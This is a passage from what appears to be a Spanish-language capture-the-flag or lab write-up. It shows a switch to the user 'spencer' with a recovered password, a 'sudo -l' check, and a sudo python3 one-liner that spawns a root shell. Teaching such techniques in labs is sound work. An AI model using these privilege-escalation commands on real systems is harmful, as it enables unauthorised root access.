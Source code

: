 

Obtenemos las credenciales del usuario `spencer` por lo que podemos pivotar al usuario `spencer` con la contraseña `password1`
```
su spencer    # Después ponemos la contraseña passwrod1
```

<p align="center">
    <img src="../img/Pasted_image_20250102182738.png" width="500">
</p>



Pudimos pivotar al usuario `spencer`, por lo que ahora vemos los binarios que pueda ejecutar.
```
sudo -l
```

<p align="center">
    <img src="../img/Pasted_image_20250102182825.png" width="500">
</p>



Puede ejecutar el binario `python3` como cualquier usuario, por lo que ejecutaremos el binarios como si fuera el usuario `root`.
```
sudo /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```

<p align="center">
    <img src="../img/Pasted_image_20250102182942.png" width="500">
</p>





